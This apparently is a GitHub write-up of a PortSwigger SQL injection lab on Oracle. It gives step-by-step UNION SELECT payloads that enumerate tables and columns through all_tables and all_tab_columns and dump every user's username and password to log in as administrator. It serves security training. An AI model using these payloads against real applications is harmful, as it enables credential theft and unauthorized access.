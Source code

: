 # SQL Injection - Listing the Database contents on Oracle

## 📌 Lab Details
- **Title**: SQL Injection - Retrieving the list of username and password of all users.
- **Difficulty**: Medium
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/de4256d42cc604a2a3f7e792c5fff88df1712f1537cd506ed2537efedbd4c665?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-oracle

## 🔍 Summary
This lab demonstrated how SQL Injection can be used to retrieve data from Oracle Databases.

## 🛠 Steps to Solve
1. Determine the number of columns present by injecting `'+UNION+SELECT+'abc','def'+FROM+DUAL--`
2. Injecting `'+UNION+SELECT+table_name,+NULL+FROM+all_tables--` to retrieve the list of tables in the database.
3. Injecting `'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--` to retrieve the details of the columns in the table (replacing the table name).
4. Injecting `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` to retrieve the usernames and passwords of all users (replacing the table and column names).
5. Find the password of administrator to log in.
   
## 📖 Key Takeaways
- Understanding how SQL queries can be manipulated on Oracle Databases.
- Using `UNION` and `SELECT` commands to extract data from tables.
  
## 🖼️ Screenshot (if needed)
![image](https://github.com/user-attachments/assets/01553fe3-f943-4dee-ba8f-c070f6ff3fe2)
![image](https://github.com/user-attachments/assets/95a212c4-ef77-4d24-96b7-4f7807481baa)
![image](https://github.com/user-attachments/assets/32b46bec-0812-4822-ba9f-63cce9412c40)


